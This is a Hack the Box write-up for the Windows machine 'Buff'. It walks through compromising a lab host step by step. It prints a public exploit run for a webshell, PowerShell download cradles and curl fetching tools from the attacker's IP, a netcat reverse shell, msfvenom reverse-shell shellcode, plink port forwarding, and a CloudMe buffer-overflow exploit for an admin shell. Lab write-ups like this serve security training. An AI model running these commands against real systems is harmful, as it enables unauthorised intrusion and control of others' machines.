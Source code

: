 +++
author = "Nick"
categories = ["hack the box", "easy", "windows", "CVE", "webshell", "port forwarding", "reverse shell", "plink"]
date = 2020-07-18T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/08/info.png"
slug = "hack-the-box-buff"
summary = "Welcome back everyone! Today we are going to be doing the Hack the Box machine - Buff. This is listed as an easy Windows box. Let's jump in!"
tags = ["hack the box", "easy", "windows", "CVE", "webshell", "port forwarding", "reverse shell", "plink"]
title = "Hack the Box - Buff"

+++


Welcome back everyone! Today we are going to be doing the Hack the Box machine - Buff. This is listed as an easy Windows box. Let's jump in!

As always we start with `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.198`

Here are our results:
```
Nmap scan report for 10.10.10.198
Host is up (0.16s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

We see only two ports. So we head over to port `8080` and see what is being hosted. We land on a gym page. Exploring the page a bit shows that it's built on a software called `Gym Management Software 1.0`. A quick google shows us there are a few possible exploits for this software.

![](/images/2020/08/image.png)

We will quickly mirror this exploit to our working directory with `searchsploit`.

Command:
`searchsploit -m 48506`

Reading through the exploit and how it works, we simply need to supply our target URL.

Command:
`python2 48506.py http://10.10.10.198:8080/`

![](/images/2020/08/buffshell.gif)

We get back a webshell. We can now use this to quickly snag our `users.txt` flag.

![](/images/2020/08/image-1.png)

Now that we have this flag, we can look at creating a more stable connection and look for ways to escalate. We can use `nc` or `plink` to create a connnection back to our attacking system. First we need to download those tools to this system.

Command:
`powershell.exe -exec bypass -C "iex(New-Object Net.WebClient).DownloadFile('http://10.10.14.210/nc64.exe', 'C:\xampp\htdocs\gym\upload\nc64.exe')"`

Once thats on the system we can create our callback.

Command:
`.\nc.exe 10.10.14.210 7777 -e powershell.exe`

Make sure we have our listener as well.
`nc -lcnp 7777`

Once we do that we get our shell back.

![](/images/2020/08/image-2.png)

Now we just download `winPEAS` the same as we have for other tools:

Command:
`iex(New-Object Net.WebClient).DownloadFile("http://10.10.14.210/winPEAS.exe", "C:\Temp\wp.exe")`

When we try to run the file however, we are blocked.

![](/images/2020/08/image-3.png)

So we just download the `.bat` version instead. As we sift through this data we don't see much too exciting. As we manually browse the the contents of the machine, we noticed `CloudMe_1112.exe` in downloads. When we check against the `winPeas` scan from above we see that port 8888 is open locally, the port `CloudMe` uses. A quick search for any exploits of the software shows there is one on [exploit-db](https://www.exploit-db.com/exploits/48389).

The goal here is to do some port forwarding to our machine and run this exploit. To do this we'll need to use `plink`. We'll also need to create our own shellcode exploit as well.

First we'll generate our shellcode:

Command:
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.210 LPORT=6969 -f c > shellcode`

We'll need to put this code in our exploit code later on. Next, let's get `plink` onto the target machine.

Command:
`curl http://10.10.14.210/plink.exe -o C:\tmp\plink.exe`

We can now create a port forwarding scenario to access remote ports locally. First start our `SSH` service if it's not already running.

Command:
`service ssh start`

Now create our port forward:

Command:
`.\plink.exe -ssh rootflag@10.10.14.210 -R 1234:127.0.0.1:8888`

This will then prompt us to login with the account. Once we do we should see a basic prompt.

![](/images/2020/08/image-5.png)

Now we should have the remote port of `8888` being forwarded to our local port of `1234`. If you try to curl the port, it's not going to get back any info but that's normally what I would do to be sure it worked.

Now that we have the ports forwarded, we can modify the exploit we found earlier - `44470.py`. First we need to replace the shellcode inside the exploit with our generated backdoor code. That's the code on line 31 - 52. Once we've pasted in our new shell code, we need to modify line 57 to reflect our port. In this case, we set or local port to `1234`. So we'll need to make that the value rather than `8888`

![](/images/2020/08/image-6.png)

Now with that saved. We can setup another listener to catch our reverse shell for the exploitcode that we made in the first step.

Command:
`nc -lvnp 6969`

We can now run the exploit. If you're on a public machine like myself, you might need to run it a few times.

Command:
`python2 44470.py` 

If all goes well, your listen will catch the connection.

![](/images/2020/08/image-4.png)

We now have an admin shell. We get our `root.txt` flag and box complete!

If you learned something in this box, send some respect my way - [HTB Profile](https://www.hackthebox.eu/home/users/profile/95635)



